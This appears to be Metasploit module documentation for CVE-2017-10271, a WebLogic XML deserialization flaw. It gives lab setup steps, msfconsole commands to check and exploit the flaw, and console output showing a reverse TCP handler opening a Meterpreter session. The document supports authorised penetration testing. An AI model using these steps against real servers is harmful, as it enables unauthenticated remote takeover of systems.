 ## Vulnerable Application

CVE-2017-10271 exploits an XML deserialization vulnerability in Oracle WebLogic via the AsyncResponseService component.  The exploit provides an unauthenticated attacker with remote arbitrary command execution.

Oracle Weblogic runs as a Java-based service in Windows, Linux, and Unix environments.  It is downloadable from Oracle once registered for an account.  For testing vulnerable environments, we used Weblogic 10.3.6 for Ubuntu (`wls1036_linux32.bin`), Weblogic 10.3.6 for Windows (`wls1036_dev.zip`).  For testing a non-vulnerable environment, we used Weblogic 12.2.1.2 (`fmw_12.2.1.2.0_wls.jar`) in combination with a JDK (`jdk-8u211-windows-x64.exe`).

## Verification Steps

### Install the application

  1. Install the application using the binaries above, with both a WebLogic server and an admin server.
  2. When prompted, name the project `base_domain`.
  3. When prompted, use a development environment instead of a production environment.
  4. When prompted, keep the default port of TCP/7001.
  5. When prompted, provide a username and password, and make a note of them.
  6. Upon completion of the installer, find and execute the admin server.  On Windows: `C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd`.  On Linux: `~/Oracle/Middleware/user_projects/base_domain/bin/startWebLogic.sh`
  7. You may be prompted for the username and password you generated during the install process.
  8. Wait for the output: `<Server state changed to RUNNING.>`

### Checking for the vulnerability

  1. Start msfconsole
  2. `use exploit/multi/misc/weblogic_deserialize_asyncresponseservice`
  3. Configure RHOSTS to the target address, and set RPORT if the default port is not being used.
  4. Run the `check` method to confirm exploitability.
  5. Look for the following output:

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > check
[+] 172.16.135.128:8088 - The target is vulnerable.
```

### Exploiting the vulnerability

  1. Follow the steps in the previous "checking" section.
  2. Set the operating system of the target (eg. `set TARGET Windows`)
  3. Configure the payload and payload parameters.
  4. `run`

## Options

  **TARGETURI** : Set this to the AsyncResponseService uri, normally it should be `/_async/asyncresponseservice`. You can also set `VHOST` instead to handle virtual hosts.

## Scenarios

```
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Generating payload...
[*] Sending payload...
[*] Sending stage (179779 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49266) at 2019-05-22 14:16:03 -0500

meterpreter >
```
